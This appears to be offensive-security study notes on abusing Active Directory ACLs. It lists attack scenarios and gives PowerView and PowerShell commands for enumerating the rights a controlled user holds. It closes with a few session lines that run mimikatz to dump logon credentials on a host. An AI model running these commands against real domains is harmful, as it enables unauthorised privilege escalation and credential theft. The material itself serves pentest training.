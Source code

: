 Some common scenarios are:

| **Attack**   | **Description**    |
|--------------- | --------------- |
| *Abusing forgot password permissions* | Help Desk and other IT users are often granted permissions to perform password resets and other privileged tasks |
| *Abusing group membership management* | It's also common to see Help Desk and other staff that have the right to add/remove users from a given group |
| *Excessive user rights* | We also commonly see user, computer, and group objects with excessive rights that a client is likely unaware of |

> Some ACL attacks can be considered "destructive," such as changing a user's password or performing other modifications within a client's AD domain.
{: .prompt-danger}

## Enumeration 

### PowerView

We can use PowerView to enumerate ACLs. Running the following function will give us a massive amount of information:
```console
PS C:\zeropio> Find-InterestingDomainAcl
```

This amount of data is time-consuming, so we will need a different approach to it. With PowerView, we can try the following with a user we have credentials:
```console
PS C:\zeropio> Import-Module .\PowerView.ps1
PS C:\zeropio> $sid = Convert-NameToSid <USER>
```

We can now use `Get-DomainObjectACL` to search:
```console
PS C:\zeropio> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

Search now the `ObjectAceType` output on the Internet to understand which ACE are we facing. PowerView can also be used:
```console
PS C:\zeropio> $guid= "<GUID>"
PS C:\zeropio> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

We can directly set the PowerView to tell us which ACE is with the flag `-ResolveGUIDs`:
```console
PS C:\zeropio> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

Let's make now a list of all domain users:
```console
PS C:\zeropio> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

Now, for each user, we will retrieve the ACL information. Then selecth the **Access property**. Finally, the `IdentityReference` to the user we are in control:
```console
PS C:\zeropio> foreach($line in [System.IO.File]::ReadLines("<PATH TO>\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<DOMAIN>\\<USER>'}}
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
